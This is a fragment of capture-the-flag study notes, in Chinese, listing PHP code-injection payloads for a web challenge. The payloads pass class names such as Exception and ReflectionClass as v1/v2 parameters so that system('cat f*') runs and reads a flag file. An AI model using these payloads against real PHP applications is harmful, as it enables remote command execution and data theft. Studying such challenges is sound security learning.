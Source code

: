 ```Plain Text
答案不唯一

payload:
v1=Exception();system('tac f*');//&v2=a               //是注释掉后面的括号
v1=ReflectionClass&v2=system('tac f*')            // 为什么不要注释符号呢？ 


不好用
payload
v1=Exception&v2=system("cat f*")   ///()() 也可以实行么？很奇怪这里

v1=ReflectionClass&v2=system("cat f*")


Exception 异常处理类 http://c.biancheng.net/view/6253.html 
payload: ?v1=Exception&v2=system('cat fl36dg.txt')
 ?v1=Reflectionclass&v2=system('cat fl36dg.txt')


```
# 15.FilesystemIterator类
![image](images/Q8etYyQ6G7NAAAEwekRPzb7GouHZjM2NHY7I4EqtjvU.png)

**列子**
